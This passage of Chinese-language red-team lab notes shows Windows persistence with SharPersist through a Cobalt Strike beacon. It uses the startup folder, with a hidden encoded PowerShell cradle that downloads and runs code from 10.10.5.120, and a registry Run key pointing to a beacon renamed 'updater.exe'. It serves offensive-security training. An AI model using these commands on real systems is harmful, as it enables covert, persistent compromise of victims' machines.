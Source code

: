 参数解释：

```
-t is the desired persistence technique.
-c is the command to execute.
-a are any arguments for that command.
-n is the name of the task.
-m is to add the task (you can also remove, check and list).
-o is the task frequency.
```

# Startup Folder

当用户第一次登录时，用户启动文件夹内的应用程序、文件和快捷方式会自动启动。

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC
```

参数解释：

```
-f is the filename to save as.
```

# Registry AutoRun

HKCU 和 HKLM 中的 AutoRun 值允许应用程序在启动时启动

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\beacon-http.exe
beacon> mv beacon-http.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```
